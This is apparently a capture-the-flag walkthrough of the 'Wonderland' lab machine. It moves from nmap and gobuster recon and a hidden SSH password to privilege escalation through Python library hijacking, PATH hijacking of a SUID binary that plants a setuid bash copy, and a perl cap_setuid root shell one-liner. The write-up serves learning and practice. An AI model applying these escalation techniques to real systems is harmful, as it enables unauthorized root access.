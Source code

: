 # Wonderland

Notes on the ctf.

## recon

### nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8eeefb96cead70dd05a93b0db071b863 (RSA)
|   256 7a927944164f204350a9a847e2c2be84 (ECDSA)
|_  256 000b8044e63d4b6947922c55147e2ac9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
MAC Address: 02:8D:C4:16:E5:AF (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=7/25%OT=22%CT=1%CU=37712%PV=Y%DS=1%DC=D%G=Y%M=028DC4%T
OS:M=64C01672%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10A%TI=Z%CI=Z%II=I
OS:%TS=A)OPS(O1=M2301ST11NW7%O2=M2301ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11N
OS:W7%O5=M2301ST11NW7%O6=M2301ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F
OS:4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T
OS:=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R
OS:%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=
OS:40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0
OS:%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R
OS:=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.55 ms ip-10-10-93-0.eu-west-1.compute.internal (10.10.93.0)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.20 seconds
```

### gobuster

`└─# gobuster dir -u 10.10.93.0 -w /usr/share/wordlists/dirb/big.txt `

```
/img                  (Status: 301) [Size: 0] [--> img/]
/poem                 (Status: 301) [Size: 0] [--> poem/]
/r                    (Status: 301) [Size: 0] [--> r/]
```

`└─# gobuster dir -u 10.10.93.0/r -w /usr/share/wordlists/dirb/big.txt`

```
/a                    (Status: 301) [Size: 0] [--> a/]
```

### website

I guess the pattern here: http://10.10.93.0/r/a/b/b/i/t/

`    <p style="display: none;">alice:HowDothTheLittleCrocodileImproveHisShiningTail</p>` looks like a hidden username:password...

`alice:HowDothTheLittleCrocodileImproveHisShiningTail` is the login for ssh.

### steganography


`└─# steghide info white_rabbit_1.jpg `

```
  embedded file "hint.txt":
```

https://github.com/RickdeJager/stegseek

`follow the r a b b i t`, looks like nothing new.


### initial access

`└─# ssh alice@10.10.93.0`

`alice@wonderland:~$`

`alice@wonderland:/home$ cat /root/user.txt`


**thm{"Curiouser and curiouser!"}**

## escalation

`Sudo version 1.8.21p2`

`Linux wonderland 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux`


`alice@wonderland:~$ sudo -l`

```
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
Perhaps we need to gain access to the user `rabbit`.


### linpeas

```
Vulnerable to CVE-2021-4034
```

```
Files with capabilities (limited to 50):
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

https://gtfobins.github.io/gtfobins/perl/

Keep this in the back of your mind...



### walrus_and_the_carpenter.py to get rabbit

can only be run with sudo by rabbit.

```
import random
poem = """
	lots of lines here...
"""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

Poem is by Lewis Carroll

https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8

'The searched module will be located in one of the defined paths, but if Python finds a module with the same name in a folder with higher priority, it will import that module instead of the “legit” one'


`alice@wonderland:~$ locate random`

```
/usr/lib/python3.6/random.py
```

`alice@wonderland:~$ vim random.py`

```
import os
os.system("/bin/bash")
```

`alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`



### teaParty to get hatter

go to rabbit's home directory.

```
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty*
```

`rabbit@wonderland:/home/rabbit$ ulimit -c unlimited`

`rabbit@wonderland:/home/rabbit$ ltrace ./teaParty `

```
setuid(1003)                                                                                                = -1
setgid(1003)                                                                                                = -1
puts("Welcome to the tea party!\nThe Ma"...Welcome to the tea party!
The Mad Hatter will be here soon.
)                                                                = 60
system("/bin/echo -n 'Probably by ' && d"...Probably by Wed, 26 Jul 2023 01:15:26 +0000
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                      = 0
puts("Ask very nicely, and I will give"...Ask very nicely, and I will give you some tea while you wait for him
)                                                                 = 69
getchar(1, 0x564f165f0260, 0x7f575cf708c0, 0x7f575cc93154
)                                                  = 10
puts("Segmentation fault (core dumped)"...Segmentation fault (core dumped)
)                                                                 = 33
+++ exited (status 33) +++
```

Run a few times

```
Probably by Wed, 26 Jul 2023 01:30:35 +0000
```

```
Probably by Wed, 26 Jul 2023 01:30:44 +0000
```

`rabbit@wonderland:/home/rabbit$ date`

```
Wed Jul 26 00:32:19 UTC 2023
```

`rabbit@wonderland:/home/rabbit$ cat teaParty`

The relevant line:
```
The Mad Hatter will be here soon./bin/echo -n 'Probably by ' && date --date='next hour' -RAsk very nicely, and I will give you some tea while you wait for himSegmentation fault (core dumped)8,�������������T����������<���,zRx
```

`rabbit@wonderland:/home/rabbit$ echo $PATH`

`rabbit@wonderland:/home/rabbit$ export PATH=/tmp:$PATH`

`rabbit@wonderland:/home/rabbit$ vim /tmp/date`

```
#!/bin/sh
echo $(id)
```

Run teaParty again

```
Probably by uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
```


```
#!/bin/bash

cp /bin/bash /tmp/yay && chmod u+s /tmp/yay
echo "Yay"
```

run teaParty, and the run `rabbit@wonderland:/home/rabbit$ /tmp/yay -p` which opens a shell with the effective user ID of hatter.



Find `WhyIsARavenLikeAWritingDesk?`

`yay-4.4$ su hatter` with this password.

### perl to root

recall `/usr/bin/perl = cap_setuid+ep`


Modifying the command from https://gtfobins.github.io/gtfobins/perl/

`hatter@wonderland:~$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`

```
#
```


**thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}**
